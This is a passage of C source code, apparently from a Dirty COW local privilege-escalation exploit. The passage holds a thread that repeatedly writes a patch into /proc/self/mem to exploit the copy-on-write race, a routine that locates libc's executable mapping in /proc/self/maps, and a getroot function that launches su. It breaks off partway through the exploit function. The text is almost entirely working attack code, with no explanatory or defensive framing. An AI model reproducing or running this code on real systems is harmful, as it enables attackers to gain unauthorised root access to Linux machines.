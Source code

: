}

static void *procselfmemThread(void *arg)
{
	struct mem_arg *mem_arg;
	int fd, i, c = 0;
	unsigned char *p;

	mem_arg = (struct mem_arg *)arg;
	p = mem_arg->do_patch ? mem_arg->patch : mem_arg->unpatch;

	fd = open("/proc/self/mem", O_RDWR);
	if (fd == -1)
		err(1, "open(\"/proc/self/mem\"");

	for (i = 0; i < LOOP; i++) {
		lseek(fd, mem_arg->offset, SEEK_SET);
		c += write(fd, p, mem_arg->patch_size);

		if (i % 0x1000 == 0 && check(mem_arg->do_patch, __func__))
			break;
	}

	if (c == 0x1337)
		printf("[*] /proc/self/mem %d\n", c);

	close(fd);

	return NULL;
}

static int get_range(unsigned long *start, unsigned long *end)
{
	char line[4096];
	char filename[PATH_MAX];
	char flags[32];
	FILE *fp;
	int ret;

	ret = -1;

	fp = fopen("/proc/self/maps", "r");
	if (fp == NULL)
		err(1, "fopen(\"/proc/self/maps\")");

	while (fgets(line, sizeof(line), fp) != NULL) {
		sscanf(line, "%lx-%lx %s %*Lx %*x:%*x %*Lu %s", start, end, flags, filename);

		if (strstr(flags, "r-xp") == NULL)
			continue;

		if (strstr(filename, "/libc-") == NULL)
			continue;
		//printf("[%lx-%6lx][%s][%s]\n", start, end, flags, filename);
		ret = 0;
		break;
	}

	fclose(fp);

	return ret;
}

static void getroot(void)
{
	execlp("su", "su", NULL);
	err(1, "failed to execute \"su\"");
}

static void exploit(struct mem_arg *mem_arg, bool do_patch)
{
	pthread_t pth1, pth2;